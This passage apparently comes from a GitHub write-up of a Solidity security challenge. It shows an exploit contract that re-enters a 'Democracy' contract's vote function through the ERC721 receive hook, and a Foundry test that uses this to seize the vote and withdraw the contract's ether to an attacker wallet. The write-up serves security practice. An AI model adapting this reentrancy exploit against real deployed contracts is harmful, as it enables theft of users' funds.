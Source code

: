 ```
        external
        returns (bytes4)
    {
        return IERC721Receiver.onERC721Received.selector;
    }
}

contract ExploitFinal is IERC721Receiver {
    Democracy democracyContract;
    address challenger;

    constructor(Democracy _democracyContract, address _challenger) {
        democracyContract = _democracyContract;
        challenger = _challenger;
    }

    receive() external payable {}

    function onERC721Received(
        address, /*operator*/
        address, /*from*/
        uint256, /*tokenId*/
        bytes calldata /*data*/
    )
        external
        returns (bytes4)
    {
        democracyContract.vote(challenger);
        return IERC721Receiver.onERC721Received.selector;
    }
}
```
- `test/Week10-11/Democracy.t.sol`
```
contract DemocracyTest is Test {
    Democracy democracyContract;
    address owner;
    address attackerWallet;

    ExploitInitial exploitInitialContract;
    ExploitFinal exploitFinalContract;

    function setUp() public {
        democracyContract = new Democracy{value: 1 ether}();
        owner = address(0xdead);
        attackerWallet = address(0xbad);

        exploitFinalContract = new ExploitFinal(democracyContract, attackerWallet);
        exploitInitialContract = new ExploitInitial(democracyContract, attackerWallet, exploitFinalContract);
    }

    function testExploit() public {
        democracyContract.nominateChallenger(attackerWallet);
        assertEq(democracyContract.balanceOf(attackerWallet), 2);

        vm.startPrank(attackerWallet);
        democracyContract.safeTransferFrom(attackerWallet, address(exploitInitialContract), 1);
        democracyContract.vote(attackerWallet);

        exploitInitialContract.attack();
        democracyContract.withdrawToAddress(attackerWallet);
        vm.stopPrank();
```
